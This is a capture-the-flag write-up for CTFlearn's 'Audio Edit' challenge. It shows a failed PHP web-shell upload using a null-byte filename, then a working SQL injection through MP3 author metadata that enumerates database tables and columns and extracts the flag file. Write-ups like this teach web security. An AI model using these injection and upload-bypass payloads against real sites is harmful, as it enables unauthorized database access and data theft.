 # [Audio Edit](https://web.ctflearn.com/audioedit)

We got a site where we can upload an audio file. My first thought is 
that there is a Local File Inclusion vulnerability.

Let's check out the upload form. It says "Upload a valid .mp3 file"

So we can assume they have some checks on the backend to make sure we 
are uploading ".mp3" and not something else like a malicious PHP script.

Let's try just uploading a text file with the extension ".mp3"

We get: "Invalid file format"

So the backend is probably using the php function `mime_content_type()` to 
check what kind of file we uploaded. This function checks for a file signature.

You can see a [list of all file signatures here](https://en.wikipedia.org/wiki/List_of_file_signatures) but basically it checks the first few bytes of a file for the signature.

So in our case an MP3 file must start with the bytes "FF FB" or "ÿû" in ASCII.

So let's change our file to have those characters first and re-upload.

That doesn't work either so maybe it's checking for ID3 tags. In this case, it'll be 
easiest to just download a really small mp3 file and edit that.

Hmmm... if we upload a valid, untampered mp3 file. We get: "File already exists!"

Well we just happened to get really unlucky that the test file we downloaded was already 
uploaded to this app...

When I just added random text inside of our file and reuploaded it worked and we were 
taken to a page where we could listen to the file, edit pitch, etc.

`edit.php?file=hashed_filename.mp3`

So if we can get our file to evaluate as PHP then we will be in business.

So let's try to stuff some evil PHP code in there. 

`<?php echo system('ls'); ?>`

But that's not all. We got to get the browser to execute it as PHP and not MP3.

Let's change the filename to `evil.php%00.mp3`

That's a null byte character and should cause the browser to ignore anything after `.php`

Let's try to reupload it now.

Hmmm... that didn't work. We can't seem to control the file extension by the time it is 
retrieved by `edit.php?file=`

However, I did just notice the "Author" and "Title" on the edit page. Maybe we can do some 
injections in the metadata of the mp3 file. First let's edit the tags and confirm they show up 
when uploaded. And they do! So let's try some injecting.

We can imagine the SQL statement looks something like this:

`INSERT INTO table (..., author, title, ...) VALUES (..., file.title, file.author);`

Where `file.author` and `file.title` are just however it extracts metadata for those two fields.

So we can do subselects in an `INSERT INTO` statement. What if we could get the query to 
look like this?

`INSERT INTO table (...,author,tile,...) VALUES (...,file.title,(SELECT version()));`

Let's try setting our mp3 author metadata to: `(SELECT @@version))-- -`

(NOTE: The extra hyphen is just so our tag editor doesn't strip the necessary whitespace 
after the comment `-- `)

Hmm.. it doesn't actually execute the query. Probably because the developer surrounded 
the extracted metadata in single quotes. Let's end the quotes and concat our version.

`',(SELECT @@version))-- -`

Great! We got a version: `5.5.58-0ubuntu0.14.04.1`

Let's see how many tables there are:

`',(SELECT COUNT(*) FROM information_schema.tables))-- -`

Ok there are 41. That's a lot to iterate through. Luckily there is a handy little 
MySQL function called `GROUP_CONCAT` which will return results as single string.

`',(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables))-- -`

Unfornutately the result is limited to a certain length, so we can only see a partial list 
of about 10. But the ones we do see are all caps which are system tables. The table we are 
interested in is probably all lowercase. So we can use the `ASCII` function to check for 
the first character being greater than or equal to 97 is 'a' knowing that 'A'-'Z' are lower in the ascii 
table.

`',(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE ASCII(table_name) > 96))-- -`

And we get a single table: `audioedit`

So let's list the columns

`',(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit'))-- -`

Four columns: id, file, author, title

Let's see every title first:

`',(SELECT GROUP_CONCAT(title) FROM audioedit))-- -`

Error? Oh crap you can't select from a table that you are inserting into... Well we can use 
an alias to get around that.

`',(SELECT GROUP_CONCAT(a.title) FROM audioedit as a))-- -`

We see a title: `flag`

So the flag must be the author:

`',(SELECT a.author FROM audioedit as a WHERE a.title='flag'))-- -`

No... the author is just `ABCTF`. Well it's got to be in this record and the only other column 
is the `file` column so lets get that...

`',(SELECT a.file FROM audioedit as a WHERE a.title='flag'))-- -`

Aha! The file is: `supersecretflagf1le.mp3`

So let's change our url to `?file=supersecretflagf1le.mp3`

What the hell? There's nothing here but an awful sounding file. What if we change the 
visualization to sonogram?

There it is!!! Now that's pretty damn cool.

> ABCTF{m3t4_inj3cti00n}
